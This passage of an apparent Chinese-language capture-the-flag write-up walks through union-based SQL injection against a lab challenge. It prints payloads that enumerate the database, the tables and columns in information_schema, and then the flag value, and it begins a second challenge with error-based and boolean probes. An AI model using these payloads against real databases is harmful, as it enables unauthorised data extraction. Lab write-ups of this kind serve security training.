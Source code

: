 成功执行，回显的字段如下：

![image-20210720162314988](https://{{site.PicturesLinks_Domain}}/images/2021/07/20/20210720162315.png)

说明两个字段位置都可以回显。

3、接下来就是枚举出当前的数据库名，语句如下：

```mysql
-1 union select 1, databases()
```

 成功出当前库名：

![image-20210720155928827](https://{{site.PicturesLinks_Domain}}/images/2021/07/20/20210720155928.png)

4、当前数据库名出来后接着联合搜索表名，使用语句如下：

````myaql
-1 union select group_concat(table_name),2 from information_schema.tables where table_schema='sqli'
````

发现在`information_schema`中查到两张表，如下：

![image-20210720161032](https://{{site.PicturesLinks_Domain}}/images/2021/07/20/20210720161032.png)

5、查到flag表后，接下来就是继续拼接命令查字段名，如下：

```mysql
-1 union select group_concat(column_name),2 from information_schema.columns where table_name='flag'
```

查找到flag字段：

![image-20210720161530240](https://{{site.PicturesLinks_Domain}}/images/2021/07/20/20210720161530.png)

6、根据库名、表名和字段名查字段值，命令如下：

```mysql
-1 union select flag,2 from sqli.flag
```

执行，成功得到flag

![image-20210720161957484](https://{{site.PicturesLinks_Domain}}/images/2021/07/20/20210720161957.png)

#### SQLI(SERIES-2)

1、先尝试添加一下`?id=1'`结果报错：

![image-20210720171725054](https://{{site.PicturesLinks_Domain}}/images/2021/07/20/20210720171725.png)

接着再在上面的基础上在加一个`'`号，继续报错，如下：

![image-20210720171910934](https://{{site.PicturesLinks_Domain}}/images/2021/07/20/20210720171911.png)

同时再用`1 and 1=1`（成功）和`1 and 1=2`（失败）命令简单判断了存在的是整型注入，此时根据上述的错误提示确定相关SQL执行语句大致为：

```mysql
select * from * where id=$id limit 0,1
```
